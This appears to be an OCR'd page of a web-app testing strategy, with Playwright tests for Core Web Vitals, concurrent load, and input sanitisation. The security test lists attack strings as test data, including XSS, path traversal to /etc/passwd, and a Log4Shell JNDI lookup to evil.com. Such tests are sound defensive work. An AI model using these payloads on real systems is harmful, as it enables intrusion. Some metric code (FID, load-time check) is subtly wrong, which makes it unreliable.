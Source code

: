 ## Performance Testing Strategy

### Core Web Vitals Monitoring
```typescript
test('should meet Core Web Vitals thresholds', async ({ page }) => {
  const metrics = await page.evaluate(() => {
    return {
      lcp: performance.getEntriesByType('largest-contentful-paint')[0]?.startTime,
      fid: performance.getEntriesByType('first-input')[0]?.processingStart,
      cls: 0 // Calculate Cumulative Layout Shift
    };
  });

  expect(metrics.lcp).toBeLessThan(2500); // LCP < 2.5s
  expect(metrics.fid).toBeLessThan(100);  // FID < 100ms
  expect(metrics.cls).toBeLessThan(0.1);  // CLS < 0.1
});
```

### Load Testing
```typescript
test('should handle concurrent user load', async () => {
  const browsers = await Promise.all(
    Array(10).fill().map(() => playwright.chromium.launch())
  );

  const pages = await Promise.all(
    browsers.map(browser => browser.newPage())
  );

  // Simulate concurrent users
  await Promise.all(
    pages.map(page => page.goto('/project/test-project'))
  );

  // Verify system remains responsive
  const responseTimes = await Promise.all(
    pages.map(page => page.evaluate(() => performance.timing.loadEventEnd))
  );

  expect(Math.max(...responseTimes)).toBeLessThan(3000); // Max 3s response time
});
```

## Security Testing Strategy

### Input Validation Testing
```typescript
test('should validate all user inputs', async () => {
  const maliciousInputs = [
    '<script>alert("xss")</script>',
    '../../../etc/passwd',
    'javascript:alert(1)',
    '${jndi:ldap://evil.com/a}'
  ];

  for (const input of maliciousInputs) {
    const result = await sanitizeInput(input);
    expect(result).not.toContain('<script>');
    expect(result).not.toContain('javascript:');
    expect(result).not.toContain('${jndi:');
  }
```